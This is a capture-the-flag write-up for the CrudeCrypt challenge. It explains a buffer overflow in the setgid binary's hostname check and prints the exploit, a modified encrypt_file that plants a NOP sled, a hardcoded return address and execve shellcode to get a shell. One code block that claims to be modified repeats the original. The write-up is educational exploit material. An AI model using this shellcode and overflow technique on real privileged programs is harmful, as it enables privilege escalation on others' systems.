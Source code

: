 # Crudecrypt

## Problem
Without proper maintainers, development of Truecrypt has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. 
The author has promised it is 'secure' but we know better than that. Take a look at the code and read the contents of flag.txt from the server! 
The problem is at `/home/crudecrypt/crude_crypt` on the shell server.

## Writeup
crude_crypt.c takes three arguments **encrypt|decrypt input_path output_path**. There is a function pointer which points to appropriate function based on the input (encrypt or decrypt).
Also encrypt action elevates the privilege of the binary using `setegid`. It asks for a password, hashes it and sends the digest to either of the functions (encrypt or decrypt).

I took a look at the `encrypt_file` function. It takes 3 inputs, raw_file, enc_file and key which is the digest of the password supplied.
It then calculates the size of the file, adds size of the header, and creates a padded block which a nice next multiple of 16. It then calls `init_file_header` which takes in a pointer 
to a file_header struct and file size and creates a file header. This function initializes two out of three fields of the `file_header` struct namely, the size and a constant `MAGIC`.
The third field, a char buffer containing host length is initialized by `safe_gethostname`. It then mem-copies the file_header and then appends raw_file to it. Then the control is 
passed to encrypt_buffer which does standard AES encryption. *Nothing fishy in there.*

````
void encrypt_file(FILE* raw_file, FILE* enc_file, unsigned char* key) {
    int size = file_size(raw_file);
    size_t block_size = MULT_BLOCK_SIZE(sizeof(file_header) + size);
    char* padded_block = calloc(1, block_size);

    file_header header;
    init_file_header(&header, size);
    safe_gethostname(header.host, HOST_LEN);

    memcpy(padded_block, &header, sizeof(file_header));
    fread(padded_block + sizeof(file_header), 1, size, raw_file);

    if(encrypt_buffer(padded_block, block_size, (char*)key, 16) != 0) {
        printf("There was an error encrypting the file!\n");
        return;
    }

    printf("=> Encrypted file successfully\n");
    fwrite(padded_block, 1, block_size, enc_file);

    free(padded_block);
}
````

The `decrypt_file` is also written in a similar way except that it reads the file_header, checks if the header is tampered by comparing it with the constant value MAGIC,
checks if the file is encrypted using current machine, and then passes the remaining file for decryption.

Since encryption was setting the gid, I assumed that there has to be some flaw during encryption. 

The HINT said **You can never trust user input**.

Since the contents of the input file we give is directly read and encrypted, nothing was fishy there. I started to think if I can mess up the header and what may happen after that.
The function checking the header during decryption is `check_hostname`. It copies the header present in the file to a buffer of size HOST_LEN which is 32 bytes. On a closer look,
it actually copies `strlen(header->host)` number of bytes. But the header->host field is being set by `safe_gethostname` function. *If only there was a way to set the hostname of our 
choosing.*

***Buffer Overflow detected!!!***

I modified the source of crude_crypt.c and compiled it. I modified the function encrypt_file.

````
void encrypt_file(FILE* raw_file, FILE* enc_file, unsigned char* key) {
    int size = file_size(raw_file);
    size_t block_size = MULT_BLOCK_SIZE(sizeof(file_header) + size);
    char* padded_block = calloc(1, block_size);

    file_header header;
    init_file_header(&header, size);
    safe_gethostname(header.host, HOST_LEN);

    memcpy(padded_block, &header, sizeof(file_header));
    fread(padded_block + sizeof(file_header), 1, size, raw_file);

    if(encrypt_buffer(padded_block, block_size, (char*)key, 16) != 0) {
        printf("There was an error encrypting the file!\n");
        return;
    }

    printf("=> Encrypted file successfully\n");
    fwrite(padded_block, 1, block_size, enc_file);

    free(padded_block);
}
````
I changed the call to `safe_gethostname` to a call to `strcpy(header.host, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa");` I then encrypted a file using this gloriously causing a
segmentation fault. Then I realized that HOST_LEN was 32 bytes as defined in the MACRO. I went ahead and changed it to 128 bytes and then recompiled it. 
This encrypted fine but decryption caused it to return to 0x61616161. Now all I had to do was find the return address, and construct the exploit string and "strcpy" it to header.host.

The new `encrypt_file` looks like 

````
void encrypt_file(FILE* raw_file, FILE* enc_file, unsigned char* key) {
    int size = file_size(raw_file);
    size_t block_size = MULT_BLOCK_SIZE(sizeof(file_header) + size);
    char* padded_block = calloc(1, block_size);

    file_header header;
    init_file_header(&header, size);
    
	//safe_gethostname(header.host, HOST_LEN);
    char nop[] = "\x90\x90\x90\x90";
    strcpy(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa");
    //strcat(header.host, exp);
    strcat(header.host, "aa");
    char ret[] = {0x20, 0xd6, 0xff, 0xff};
    strcat(header.host, ret);
    //strcat(header.host, "FFFF");
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, nop);
    strcat(header.host, exp);

    memcpy(padded_block, &header, sizeof(file_header));
    fread(padded_block + sizeof(file_header), 1, size, raw_file);

    if(encrypt_buffer(padded_block, block_size, (char*)key, 16) != 0) {
        printf("There was an error encrypting the file!\n");
        return;
    }

    printf("=> Encrypted file successfully\n");
    fwrite(padded_block, 1, block_size, enc_file);

    free(padded_block);
}
````
Sorry for the "nop's" I felt lazy to write it properly.

I also added the global variable for exploit string since adding a local variable was interfering other instructions on the stack.
`char exp[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";`

I then encrypted it like

`./test encrypt in.txt mod.txt`

and used the original binary to decrypt
`./crude_crypt mod.txt dec.txt` which gave me an awesome shell

**FLAG: writing_software_is_hard**

CAUTION: GDB adds its own environment variables on the stack causing the addresses to be different by some offset.
NOTE: The exploit string was getting overwritten by itself, so I put it as a global variable and hence it will be in the data section.

